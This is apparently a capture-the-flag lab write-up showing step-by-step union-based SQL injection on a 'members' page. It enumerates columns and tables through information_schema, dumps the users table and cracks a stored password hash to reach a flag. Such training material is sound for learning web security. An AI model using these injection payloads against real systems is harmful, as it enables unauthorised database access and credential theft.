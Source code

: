 # SQLI 1

On members I tried basic sqli 

> 1 or 1=1

I got all the members so basically there is sqli in members page second thing to do

> 1 union select 1

got an error:

> The used SELECT statements have a different number of columns

so I need to add more columns till i got the exact number o columns 

> 1 union select 1,2

the message error is gone, now we need to change 1 with 0 so we display only data we want.

> 0 union select 1,2

Lets deisplay the database namme to do that we can change 1 or 2 with database function

>  0 union select 1,database()
>  
>  ID: 0 UNION select 1,database() 
>  
> First name: 1
> 
> Surname : Member_Sql_Injection

Now we need to find tables and their columns to do so lets try

> 0 UNION select 1,concat(table_name, 111,column_name) from information_schema.columns 

It worked so basically we concat table and column name I added 111 to separate them because we cant put a char or a string
we got alot of rows, lets search for users, we found users table lets display every column on users table

> 0 UNION select 1,concat(first_name,last_name,user_id,town,country,countersign,Commentaire) from users

flag user got a sus commentaire lets decrypt the countersign

> Decrypt this password -> then lower all the char. Sh256 on it and it's good !
> 
> 5ff9d0165b4f92b14994e5c685cdce28 (the countersign)


we got FortyTwo => tolower() => fortytwo => sha256 => 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5
